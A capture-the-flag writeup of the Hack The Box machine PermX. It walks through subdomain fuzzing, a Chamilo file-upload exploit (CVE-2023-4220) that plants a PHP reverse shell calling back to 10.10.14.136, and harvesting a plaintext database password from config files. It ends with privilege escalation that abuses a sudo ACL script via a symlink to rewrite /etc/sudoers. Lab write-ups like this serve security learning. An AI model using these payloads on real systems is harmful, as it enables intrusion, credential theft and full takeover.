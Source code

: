 # [PermX](https://app.hackthebox.com/machines/PermX) Writeup [HTB]
## 🔎 Investigating the website
As per usual, I begin by scanning the services that are exposed using `nmap`. The only services are ports 22 (ssh) and 80 (http). I also discover that the host name is `permx.htb`. To solve the classic DNS error, I add it to the list of known hosts.

The website is an e-learning platform, providing information on which courses are offered and how to join them. There are a couple of forms, but none of them are actually working. The code doesn't look suspicious, either. Time to change approach!

## 🐝 Fuzzing for subdomains
As I cannot find anything interesting on the website, I run `feroxbuster` to explore the directories. Again, this doesn't bring me any results. 
I am once again saved by the Internet, here to introduce me to `ffuf`, a lovely tool to fuzz (among other things) website subdomains. 
The tool returns an insane amount of false positives. Luckily, they all have the same number of words, so I can easily filter them.
```sh
$ ffuf -w big.txt -u http://permx.htb -H "Host: FUZZ.permx.htb" -fw 18
[...]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 5176ms]
www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 46ms]
```
I add this new-found hostname to `/etc/hosts`, and I'm ready to go!
```sh
$ vim /etc/hosts
# add this line
10.10.11.23 permx.htb   lms.permx.htb
```

## 🐚 Getting the reverse shell
The `lms` subdomain is a Chamilo login form, asking for username and password. There is also a "lost password" functionality, to recover it, and a hidden text field whose significance is a mystery to me.

Since the webpage footnote shows the admin's address (`admin@permx.htb`), my first attempt consists in asking to recover the admin's password, and trying to intercept the email with the instructions. However, the website is not actually able to send emails.

I proceed with looking for Chamilo's known vulnerabilities. [CVE-2023-3368](https://starlabs.sg/advisories/23/23-3368/) (command injection) looks promising at first, but running the POC reveals that the website is not vulnerable to it. 
I then try with [CVE-2023-4220](https://starlabs.sg/advisories/23/23-4220/) (remote code execution), whose POC is even simpler:
```sh
echo '<?php system("bash -c '\''bash -i >& /dev/tcp/10.10.14.136/4815 0>&1'\''"); ?>' > rce.php
curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```
Now I just need to open a channel on port 4815 and get the reverse shell!

## 👾 Becoming an actual user
As per usual, I am now impersonating good old `www-data`. A simple search reveals the name of my target user:
```
$ ls /home
mtz
```
I start looking for the user password, hoping to find it lying around in plaintext. 
First, I search for the `.env` file, but it's not there. Then, I decide to explore the `chamilo/app/config/` folder, grepping for the word "password". And sure enough, it's right there!
```sh
$ grep -r "password" /var/www/chamilo/app/config
[...]
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```
I change user, and get the first flag!
```sh
$ su - mtz
Password: 03F6lY3uXAP2bkW8
$ cat user.txt
<USER FLAG>
```

## 🔑 Who needs passwords anyway, ew
The first thing I do with my new "mtz" identity is checking whether it has some sudo permissions:
```sh
$ sudo -l
[...]
User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

This smells like privilege escalation! I immediately examine the script:
```sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```
This script can be used to modify permissions for _any_ file, as long as it can be found in `/home/mtz`. Since the script doesn't solve paths, but simply checks if the target string starts with "/home/mtz", this limitation can be easily overcome thanks to soft links. 

My first attempt consists in linking the `/root/root.txt` file, gaining read permissions and printing its content. 
However, this approach fails when calling `setfacl`, most likely due to the fact that mtz can neither read nor execute the `/root` directory.

Conscious of this new limitation, I choose to target a different directory, one that I can actually read: `/etc`. Specifically, I want to gain writing privileges on `/etc/sudoers`, and remove the need for mtz to use passwords. Forever.
```sh
$ ln -s /etc/sudoers /home/mtz/file
$ sudo /opt/acl.sh mtz rwx /home/mtz/file
```
Now I can print the sudoers file and see which line I need to modify. It's the last one:
```sh
# the current line...
mtz ALL=(ALL:ALL) NOPASSWD: /opt/acl.sh
# ...must become
mtz ALL=(ALL:ALL) NOPASSWD: ALL
```
I'm so close to the flag, yet so far. 
The box is, for some reason, very instable: my files keep disappearing, the sudoers permissions are removed, and the machine is reset by the other players every 5 minutes. After many failed attempts, I gain all my commands and run them in one go:
```sh
$ n -s /etc/sudoers file; sudo /opt/acl.sh mtz rwx /home/mtz/file; head -n -1 /home/mtz/file > temp_file; echo "mtz ALL=(ALL) NOPASSWD: ALL" >> temp_file; cat temp_file > /etc/sudoers; sudo cat /root/root.txt
<ROOT FLAG>
```

## 💥 Conclusion
A fun machine (except for the part when it kept exploding, lol). Looking forward to the official writeup!
